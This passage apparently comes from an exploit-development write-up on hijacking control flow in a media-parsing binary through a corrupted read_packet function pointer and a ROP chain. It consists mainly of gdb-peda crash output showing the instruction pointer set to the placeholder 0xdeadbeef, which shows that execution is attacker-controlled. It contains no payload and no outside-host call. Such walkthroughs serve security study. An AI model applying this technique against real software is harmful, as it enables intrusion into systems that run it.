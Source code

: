 The important instruction is the `call   rax` instruction. RAX would contain the
value of `s->read_packet` and the instruction would cause the execution flow to
jump to that value.

Allowing the binary to run until it crashes would show that the ROP chain works.

```shell
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x117fc75 --> 0xbfdd7fee7fff3ff
RBX: 0x1deebe0 --> 0x49daa9 (<term_init+105>:    add    rsp,0x58)
RCX: 0x4141414141414141 ('AAAAAAAA')
RDX: 0x80a395ca
RSI: 0x1deecb8 --> 0x300000000
RDI: 0x4077e9 (<audio_read_header+272>:    pop    rsp)
RBP: 0x1deecb8 --> 0x300000000
RSP: 0x1deeca8 --> 0xcafebabe
RIP: 0xdeadbeef
R8 : 0x0
R9 : 0x41414141 ('AAAA')
R10: 0x41414141 ('AAAA')
R11: 0x246
R12: 0x800
R13: 0x800
R14: 0x80a395ca
R15: 0x41414141 ('AAAA')
EFLAGS: 0x10216 (carry PARITY ADJUST zero sign trap INTERRUPT direction)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xdeadbeef
[------------------------------------stack-------------------------------------]
0000| 0x1deeca8 --> 0xcafebabe
0008| 0x1deecb0 --> 0xba5eba11
0016| 0x1deecb8 --> 0x300000000
0024| 0x1deecc0 --> 0x8000000000000000
0032| 0x1deecc8 --> 0x831
0040| 0x1deecd0 --> 0x1de69d0 --> 0x20 (' ')
0048| 0x1deecd8 --> 0x0
0056| 0x1deece0 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000deadbeef in ?? ()
gdb-peda$ bt
#0  0x00000000deadbeef in ?? ()
#1  0x00000000cafebabe in ?? ()
#2  0x00000000ba5eba11 in ?? ()
#3  0x0000000300000000 in ?? ()
#4  0x8000000000000000 in ?? ()
#5  0x0000000000000831 in ?? ()
#6  0x0000000001de69d0 in ?? ()
#7  0x0000000000000000 in ?? ()
gdb-peda$
````
